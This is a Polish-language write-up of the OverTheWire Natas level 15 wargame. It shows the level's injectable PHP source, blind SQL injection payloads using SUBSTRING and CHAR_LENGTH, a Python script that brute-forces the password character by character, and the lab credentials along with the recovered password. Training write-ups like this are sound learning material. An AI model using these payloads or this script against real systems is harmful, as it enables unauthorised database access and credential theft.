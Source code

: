 Ten poziom zawiera pole w które można wpisać nazwę użytkownika i sprawdzić czy on istnieje, poprzez otrzymanie informacji "This user exists." albo "This user doesn't exist."

Kod źródłowy:
```php
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
```

Z tego kodu można zauważyć, że da się ponownie zastosować sql injection w celu modyfikacji zapytania SQL. Problemem jednak jest to, że serwer nie zwraca danych z bazy, tylko odpowiada tak lub nie. Występuje tutaj podatność blind SQL injection.

W zapytaniach wykorzystałem flagę debug=1, która wypisuje treść zapytania w odpowiedzi.

Można sprawdzić z ilu znaków składa się hasło oraz każdy znak po kolei, żeby zdobyć odpowiedź.

```
Executing query: SELECT * from users where username="natas16" and CHAR_LENGTH(password) = 32 #"<br>This user exists.<br>
```

Dalej znając długość hasła, można każdy znak po kolei sprawdzić i w ten sposób zdobyć całe hasło.
```
username=natas16"+and+SUBSTRING(password,+1,+1)+%3d+"h"+%23
```
Odpowiedź:
```
Executing query: SELECT * from users where username="natas16" and SUBSTRING(password, 1, 1) = "h" #"<br>This user exists.<br>
```

Żeby uprościć proces napisałem w języku python3 skrypt, który iteruje po każdym numerze litery w haśle wszystkie znaki, jak znajdzie poprawny to iteruje od następnego pola.

```python
import requests
import string

all_chars = string.ascii_letters + string.digits

url = "http://natas15.natas.labs.overthewire.org/index.php?debug=1"

password = ""

auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

for i in range (1, 33):
      for char in all_chars:
            payload = f'natas16" and SUBSTRING(password, {i}, 1) = "{char}" #'
            data = {
                  "username": payload
            }
            response = requests.post(url, data=data, auth=auth)
            if "This user exists." in response.text[-200:]:
                  password += char
                  break
print(password)
```

Hasło to : hpkjkyvilqctew33qmuxl6edvfmw4sgo

Sprawdzenie
```
Executing query: SELECT * from users where username="natas16" and password="hpkjkyvilqctew33qmuxl6edvfmw4sgo" #"<br>This user exists.<br>
```